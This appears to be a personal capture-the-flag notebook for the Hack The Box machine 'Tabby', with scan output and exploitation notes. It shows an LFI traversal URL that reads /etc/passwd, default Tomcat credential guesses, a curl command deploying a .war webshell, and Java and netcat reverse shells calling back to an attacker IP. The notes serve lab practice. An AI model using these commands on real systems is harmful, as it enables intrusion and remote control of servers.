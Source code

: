 

* I'm gonna try with the first one see if the code is readable to me.
* It's simple but not working :(
* It's not working because I'm looking in the wrong direction and the tomcat version is 9 not 2 which leaves me with no exploits on exploit-db.
* Found an exploit that affects tomcat-catalina version 9.0.31 is affected ( Needs Authentication ).  

* found these for the tomcat service and found some stuff in the examples directory but no luck with anything so far 
```
/examples        	(Status: 302) [Size: 0] [--> /examples/]
//examples/jsp/index.html (Status: 200) [Size: 14245]    	 
//examples/jsp/snp/snoop.jsp.html (Status: 200) [Size: 2318]  
//examples/jsp/snp/snoop.jsp (Status: 200) [Size: 581]   	 
//examples/servlets/index.html (Status: 200) 
```


* Found this vulnerability. Might be the one but it seems too new (https://www.sangfor.com/en/info-center/blog-center/cyber-security/apache-tomcat-deserialization-remote-code-execution-vulnerability) IRRELEVANT
* Try and look into this one or any other exploits for the apache version because it's quiet old (https://www.virsec.com/research-lab/cve-2020-11984-apache-http-server-2-4-32-to-2-4-44-mod_proxy_uwsgi-info-disclosure-and-possible-rce)


# Machine #14 Tabby   


## Nmap Results  
  <img src="https://nmap.org/images/nmap-logo-256x256.png">   

* Initial nmap output  

  ```console
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  8080/tcp open  http	Apache Tomcat
  ```

* Full scan gives same results as the 1000 ports nmap scan.   




<br/><br/>

## Banner Grabbing of Services  



<br/><br/>

## Searchsploiting Results   
  <img src="https://www.offensive-security.com/wp-content/uploads/2020/05/SearchSploit-1.png" width=400 height=200>   



<br/><br/>  

## Gobustering Stuff  

  <img src="https://cdn.akamai.steamstatic.com/steam/apps/1092880/capsule_616x353.jpg?t=1605640630" width=400 height=200>  

```console
/Readme.txt           (Status: 200) [Size: 1574]
/assets               (Status: 301) [Size: 315] [--> http://10.129.170.18/assets/]
/favicon.ico          (Status: 200) [Size: 766]                                   
/files                (Status: 301) [Size: 314] [--> http://10.129.170.18/files/] 
/index.php            (Status: 200) [Size: 14175]                                 
/news.php             (Status: 200) [Size: 0]  
```

<br/><br/>


## Thinking Out Loud   

  <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQr4hzX6KoRN5PjPJjy8QC43K0T-CoXZHawDIxG4jCa9aMD1K8Vl3vhpG2a2OVbiy-i93c&usqp=CAU" width=200 height=200>  

* DNS unauthorized zone transfer.  
* I found an LFI in this url `http://megahosting.htb/news.php?file=../../../../../../../etc/passwd` I was able to read the passwd file and I now know that there's a user called "ash"  
  ```console
  ash:x:1000:1000:clive:/home/ash:/bin/bash 
  ```

* It seems like the config file `tomcat-users.xml` is usually stored in `$CATALINA_HOME\conf\tomcat-users.xml` and the catalina home seems to be in the following dir  `CATALINA_HOME in /usr/share/tomcat9 `, so I will be trying this path `/usr/share/tomcat9/conf/tomcat-users.xml`.
* They say that credentials are usually stored on tomcat config files.  
* I must be able to open some file from the tomcat service in the port 80 service through the LFI vulnerability and this way I can get something. A credential or anything.

<br/><br/>  


# <span style="color:#FF5050">Machine # Tabby</span>  


## <span style="color:#FF5050">Checklist 🤓   

- [x] LFI
- [ ] ~~Maybe I can access data through this path somehow `/var/lib/tomcat9/webapps/ROOT/index.html`~~
- [ ] Scower the RUNNING.txt file for something.
- [ ] Maybe I can access data through this path somehow `/var/lib/tomcat9/webapps/ROOT/index.html`
- [x] Try default credentials for `/html/manager` and `/html/host-manager`.
- [ ] Bruteforce the `/html/manager` login credentials.

<br/><br/>


## <span style="color:#FF5050">What Do We Have? 🤔🤔 

* A `http://10.10.10.194:8080/manager/html` manager page that prompts me for a username and a password (Tried the defaults and they didn't work).
* Default credentials that could be the ones  
```
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

<br/><br/> 

## <span style="color:#FF5050">Random Notes👀  
* PHP is being used in the backend.  
* So LFI gives me access to files, let's call it, outside of the sandboxed environment but it does not allow me to read files I don't have privilege to read. So what am I supposed to do with it?
* I will use the manual exploit to try and understand it as much as I can (The upload war thing).
* It seems that I can't upload a .war file unless I have the right privileges which can be acquired if I have the roles admin, manager or manager-script and according to the `tomcat-users.xml` file I have the `manager-script` role.  
* The path was right infront of me in the HackTricks page in the RCE section. What lesson did I learn? Read articles properly and don't skip stuff.
* I will be creating a .war webshell and then I will upload it with this line of code  
  ```
  curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
  ```  
* After creating the war file and uploading it using the previous curl code I can just visit the path `/webshell` with `?cmd=[COMMAND]` which will lead to executing the webshell.  
* Imma try and upload a reverse shell from the beginning and not a webshell  
```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.8/1234;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<br/><br/>

## <span style="color:#FF5050">How Did I Own This Shit 😎🥳 


<br/><br/>

## <span style="color:#FF5050">Writeups ✍🏽📓   


<br/><br/> 
